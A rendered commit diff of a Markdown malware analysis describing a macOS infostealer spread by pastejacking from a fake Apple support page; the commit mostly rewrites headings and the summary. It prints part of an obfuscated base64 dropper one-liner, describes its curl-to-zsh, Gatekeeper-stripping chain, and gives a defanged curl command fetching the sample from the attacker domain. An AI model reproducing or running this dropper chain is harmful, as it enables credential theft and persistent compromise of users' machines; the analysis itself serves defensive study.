

Before and after one commit to userHonest/docs, a Markdown page: malware/helper-infostealer.md, 2 parts joined by grey strips. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/malware/helper-infostealer.md
+++ b/malware/helper-infostealer.md
@@ -11,16 +12,24 @@
 
 ---
 
+
+# **Summary**
+
+The affected user accessed a webpage presenting itself as Apple support, which instructed them to execute a script under the pretext of cleaning temporary files. The provided script initiated a chained command sequence that executed within the system’s temporary directory.
+This execution resulted in the download and deployment of a secondary binary with malicious intent. The binary performed two primary actions:
+
+```A) Credential harvesting:``` User credentials were collected and exfiltrated to an external command-and-control (C2) server.
+
+```B) Persistence and system compromise:``` A persistent binary was installed on the system, enabling continued execution of low-level system commands and establishing a foothold on the host.
+
+This activity indicates a successful social engineering attack leading to unauthorized code execution, data exfiltration, and persistence on the affected system.
+
+
+<br>
 <br>
 
 
-# **Summary**
-
-The user affected went into an apple support page to clean tempfiles. They recommended running a script that will run a command to run a second command in the temp folder on the system and download a new binary with malicious intent to perform two actions. The **first** is to steal the credentials of the user and transfer them to a c2 command and control server. The **second** is to install a persistent  binary file in the system that allows it to run low level system commands and gain a foothold in the user's computer.
-
-
-
-## **Decoding the first pastejacking command**
+# **Decoding the first pastejacking command**
 
 The user was recommended to run this command on the MAC computer. And it's a
 **malicious one-liner** designed to bypass your scrutiny by using **Base64 encoding** to hide a web link; specifically, it decodes the hidden string into a URL, uses **curl** to download whatever script is hosted there, and immediately executes it using the **Zsh shell**.
@@ -61,7 +70,11 @@ echo 'H4sIALlYlGkC/12LOQqAQAwAe18REWxEU9j5mxgDu7BHiBHE12upljPMdC2useC1h4YPSzBWQM
 
 This command is the **fully revealed mechanism** of a cyberattack: it decodes and decompresses a hidden script that immediately attempts to infect the Mac. Once the obfuscation is stripped away, the code shows that it **downloads a malicious file** named "helper" from a suspicious external domain, uses the `xattr -c` command to **strip away Apple's security warnings** (Gatekeeper), grants the file execution permissions, and then runs it. By bypassing built-in macOS safety checks, this one-liner effectively sneaks an unverified program onto your system and launches it.
 
-# **Capturing the helper file without compromise**
+<br>
+<br>
+
+
+# **Downloading the Helper File Without Execution**
 
 ```shell
 curl -L -o helper.bin hxxps://biopranica[.]com/cleaner3/update
````
Also changed, not shown: other parts of malware/helper-infostealer.md (+11 -2 lines).
